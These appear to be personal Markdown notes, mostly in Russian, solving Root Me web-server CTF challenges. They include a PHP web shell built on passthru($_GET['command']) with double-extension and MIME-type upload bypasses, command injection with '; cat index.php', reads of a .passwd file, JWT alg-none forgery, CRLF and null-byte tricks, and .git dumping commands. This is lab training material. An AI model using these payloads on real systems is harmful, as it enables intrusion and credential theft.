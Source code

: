 # Root me 

## Web Server

### 1. HTML - Source code

1) Проверьте исходный код. Сочетание ctrl+U откроет исходный код почти в любом браузере.

### 2. HTTP - Open redirect

1) Обратить внимание на ссылку у кнопок соц сетей.
2) Структура состоит из ссылки и её хэша.
3) Узнать какой хэш можно на cyber chief.
4) Остаётся подставить любой другой сайт, посчитать хэш md5 и в бурпе просмотреть запросы. В теле редиректа будет флаг.

### 3. HTTP - User-agent

1) В хэдере изменить содержимое user-agent на admin.
   
### Weak password

1) Можно побрутить логин админ по словарю или вручнуб перебрать подхолящие тупые пароли.

### 4. PHP - Command injection

1) Для иньекции можно использовать & или ; cat index.php

### 5. Backup file

1) Проверить временный файл ~index.php. Идея берётся из owasp гайда

### 6. HTTP - Directory indexing

1) Проверить исходники страницы
2) Пройти по ссылке и следовать подсказкам на испанском блин

### 7. HTTP - Headers

1) Проверить в сыром виде заголовки респонса
2) Заменить значение необычного заголовкан на true

### 8. HTTP - POST

1) Перехватить POST запрос
2) Модифицировать очки для выигрыша в игре

### 9. HTTP - Improper redirect

1) Нарваться на ридеркт потыкаясь по дирректориям или взаимодействуя с формой
2) Просмотреть редирект в бурпе

### 10. HTTP - Verb tampering

1) Легенды гласят о технике подмены типа запроса для вызова ошибки у апача.

### 11. Install files

1) Дирбастинг на основе знания об устанавливаемом фреймворке
2) Поиск сенсетив информэйшн

### 12. CRLF

1) Инекция в бурпе строки аутентификации админа с символами: \r или \n - в urlencode для переноса ошибочной авторизации на строку ниже.

### 13. File upload - Double extensions

1) PHP имеет особенность, что он может парсить код не только из php-файлов, что даёт возможность модифицировать только расширение без MIME type в post запросе.

Англоязычный коллега удачно подсказал пейлоад с get параметром:
```php    
    Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 14. File upload - MIME type

```php    
    1) Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    2) Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    3) Change MIME/type. Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    4) Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 15. HTTP - Cookies

1) В куках изменить одно значение на admin

### 16. Insecure Code Management

Tools for extracting .git
* https://github.com/arthaud/git-dumper

```bash
  kali@kali:~/Desktop$ ./git-dumper/git-dumper.py http://challenge01.root-me.org/web-serveur/ch61/.git ~/Desktop/her/ -j 4
```

* Using GitTool : https://github.com/internetwache/GitTools

  1. Git Dumper :
  - Get .git on web server to local

  ./gitdumper.sh http://challenge01.root-me.org/web-serveur/ch61/.git/ /tmp/root

  2.Extractor
  - Extractor code in .git folder

  ./extractor.sh /tmp/root/ /tmp/rootme

  3.Read code and find password

  grep -r "$password"

  4. Final
   
* wget --recursive --no-parent http://challenge01.root-me.org/web-serveur/ch61/.git/ 

* dvcs-ripper

```bash
    kali@kali:~/Desktop/New Folder$ ../dvcs-ripper/rip-git.pl -u http://challenge01.root-me.org/web-serveur/ch61/.git/ -c -m
```

### 17. JSON Web Token (JWT) - Introduction

1. Put JWT from guest login to https://jwt.io/
2. The grab first part decoded in json format and chang alg to none then encode it with https://www.base64encode.org/
3. On jwt.io change firt part of hash (before first . ) to new one you just mate with alg none...
4. On jwt change payload guest->admin
5. Grab new JWT and change your cookie value with it.
6. Refresh webpage

### 18. Directory traversal

1. Visit the Challenge Site: http://challenge01.root-me.org/web-serveur/ch15/ch15.php
2. Click on a Tab (f.e Device)
3. In the URL Bar you see, how the Galaries are Accessed: ?galerie=devices
4. Now we use Directory Transversal
    1. remove the "devices" after "galarie="
    2. The URL should look like this now: http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./
    3. Go to the URL
5. Now there are 6 new Icons Displayed directly on the Page
6. Open the Source of the Site
7. Check the href for each, you should find: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r
    now insert the new Name in the Original URL. It should look like: http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r
9. There are now new icons when you Load the URL
10. Open the Source Code again
11. There is a File liked "password.txt" with the Link: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt
12. Open the Link: http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt and grab the Password

### 19. File upload - Null byte

1. Upload file with title hero.php%00.jpeg

### 20. JSON Web Token (JWT) - Weak secret

1. 
